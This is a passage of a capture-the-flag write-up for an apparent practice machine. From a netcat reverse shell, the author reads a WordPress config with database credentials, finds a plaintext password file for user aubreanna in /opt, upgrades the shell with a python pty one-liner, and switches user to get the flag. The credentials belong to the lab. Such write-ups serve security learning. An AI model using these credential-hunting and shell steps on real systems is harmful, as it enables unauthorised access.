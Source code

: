At the same time, looking at the other files in the directory  

config-localhost.php is the wordpress configuration but nothing relevant to what we're after. 

```shell
$ cat config-localhost.php
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'wordpress123');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/var/www/html/wordpress/wp-content');
```

After some more searching, i found an interesting text file in the /opt directory. The content of the file contains aubreanna credentials. Which means we can login to aubreanna using this. 

```shell
$ cd /opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
This error show we need to run this on a terminal.

```shell
$ su -l aubreanna
su: must be run from a terminal
```

Since we're using netcat reverse shell, the shell is not stable. So in order to fix this we need to spawn a stable shell with the following commands 

```shell
$ python -c "import pty;pty.spawn('/bin/bash')"
```
Now we can try again and hopefully it should work 

```shell
www-data@internal:/opt$ su -l aubreanna
su -l aubreanna
Password: bubb13guM!@#123

aubreanna@internal:~$
```

And we're in !!!!!!

We have now obtain the user flag !!!!
